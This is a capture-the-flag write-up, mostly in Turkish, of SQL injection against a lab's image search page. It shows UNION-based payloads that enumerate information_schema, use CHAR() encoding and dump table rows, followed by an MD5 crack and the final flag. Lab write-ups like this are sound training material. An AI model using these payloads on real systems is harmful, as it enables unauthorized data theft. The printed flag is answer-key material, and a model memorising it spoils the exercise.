 # SQL Injection - Image Search

## 1. Tablo İsmini Bulma

```sql
1 AND 1=0 UNION SELECT table_name, null FROM information_schema.tables WHERE table_schema=database()--
```

**Sonuç:** `list_images`

---

## 2. Kolon İsimlerini Bulma

```sql
1 AND 1=0 UNION SELECT column_name, null FROM information_schema.columns WHERE table_name=CHAR(108,105,115,116,95,105,109,97,103,101,115)--
```

### Bulunan Kolonlar:
- `id`
- `url`
- `title`
- `comment`

**Çıktı:**
```
ID: 1 AND 1=0 UNION SELECT column_name, null FROM information_schema.columns WHERE table_name=CHAR(108,105,115,116,95,105,109,97,103,101,115)-- 
Title: 
Url : id

ID: 1 AND 1=0 UNION SELECT column_name, null FROM information_schema.columns WHERE table_name=CHAR(108,105,115,116,95,105,109,97,103,101,115)-- 
Title: 
Url : url

ID: 1 AND 1=0 UNION SELECT column_name, null FROM information_schema.columns WHERE table_name=CHAR(108,105,115,116,95,105,109,97,103,101,115)-- 
Title: 
Url : title

ID: 1 AND 1=0 UNION SELECT column_name, null FROM information_schema.columns WHERE table_name=CHAR(108,105,115,116,95,105,109,97,103,101,115)-- 
Title: 
Url : comment
```

---

## 3. Verileri Çekme

```sql
1 UNION SELECT 1, CONCAT(id, url, title, comment) FROM list_images
```

### Önemli Kayıt:

```
ID: 1 UNION SELECT 1, CONCAT(id, url, title, comment) FROM list_images 
Title: 5borntosec.ddns.net/images.pngHack me ?If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : 1
```

---

## 4. Flag Bulma

### MD5 Hash Decode:
- **Hash:** `1928e8083cf461a51303633093573c46`
- **Tool:** [CrackStation](https://crackstation.net/)
- **Decoded:** `albatroz`

### SHA256 Encode:
```bash
echo -n "albatroz" | sha256sum
```

**Flag:** `f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188`

---

## Özet

1. SQL Injection ile `list_images` tablosunu bulduk
2. CHAR() fonksiyonu kullanarak kolon isimlerini öğrendik
3. CONCAT() ile tüm verileri birleştirip çektik
4. `comment` kolonunda gizli MD5 hash bulduk
5. MD5'i decode edip SHA256 ile hash'leyerek flag'i elde ettik

**Flag:** `f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188`